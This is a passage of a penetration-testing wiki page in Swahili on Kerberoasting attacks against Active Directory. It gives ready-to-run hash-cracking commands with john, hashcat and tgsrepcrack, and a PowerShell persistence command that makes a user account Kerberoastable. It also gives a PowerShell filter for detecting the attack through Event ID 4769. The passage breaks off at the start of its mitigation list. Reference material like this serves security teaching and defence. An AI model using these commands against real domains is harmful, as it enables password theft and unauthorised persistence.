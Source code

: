 <figure><img src="../../images/image (48).png" alt=""><figcaption></figcaption></figure>

\
Tumia [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_content=kerberoast) kujenga na **kujiendesha** kwa urahisi kazi zinazotumiwa na zana za jamii **zilizoendelea zaidi** duniani.\
Pata Ufikiaji Leo:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=kerberoast" %}

### Kupasua
```bash
john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```
### Persistence

Ikiwa una **idhini ya kutosha** juu ya mtumiaji unaweza **kufanya iwe kerberoastable**:
```bash
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose
```
Unaweza kupata **zana** muhimu za mashambulizi ya **kerberoast** hapa: [https://github.com/nidem/kerberoast](https://github.com/nidem/kerberoast)

Ikiwa unapata **kosa** hili kutoka Linux: **`Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`** ni kwa sababu ya muda wako wa ndani, unahitaji kusawazisha mwenyeji na DC. Kuna chaguzi chache:

- `ntpdate <IP of DC>` - Imepitwa na wakati tangu Ubuntu 16.04
- `rdate -n <IP of DC>`

### Kupunguza

Kerberoasting inaweza kufanywa kwa kiwango cha juu cha usiri ikiwa inaweza kutumika. Ili kugundua shughuli hii, umakini unapaswa kulipwa kwa **Kitambulisho cha Tukio la Usalama 4769**, ambacho kinaonyesha kwamba tiketi ya Kerberos imeombwa. Hata hivyo, kutokana na mzunguko mkubwa wa tukio hili, filters maalum zinapaswa kutumika ili kutenga shughuli zinazoshuku:

- Jina la huduma halipaswi kuwa **krbtgt**, kwani hii ni ombi la kawaida.
- Majina ya huduma yanayomalizika na **$** yanapaswa kutengwa ili kuepuka kujumuisha akaunti za mashine zinazotumika kwa huduma.
- Maombi kutoka kwa mashine yanapaswa kuchujwa kwa kutengwa kwa majina ya akaunti yaliyoundwa kama **machine@domain**.
- Ni lazima tu maombi ya tiketi yaliyofanikiwa yazingatiwe, yanayotambulika kwa msimbo wa kushindwa wa **'0x0'**.
- **Muhimu zaidi**, aina ya usimbaji wa tiketi inapaswa kuwa **0x17**, ambayo mara nyingi hutumiwa katika mashambulizi ya Kerberoasting.
```bash
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4769} -MaxEvents 1000 | ?{$_.Message.split("`n")[8] -ne 'krbtgt' -and $_.Message.split("`n")[8] -ne '*$' -and $_.Message.split("`n")[3] -notlike '*$@*' -and $_.Message.split("`n")[18] -like '*0x0*' -and $_.Message.split("`n")[17] -like "*0x17*"} | select ExpandProperty message
```
Ili kupunguza hatari ya Kerberoasting:
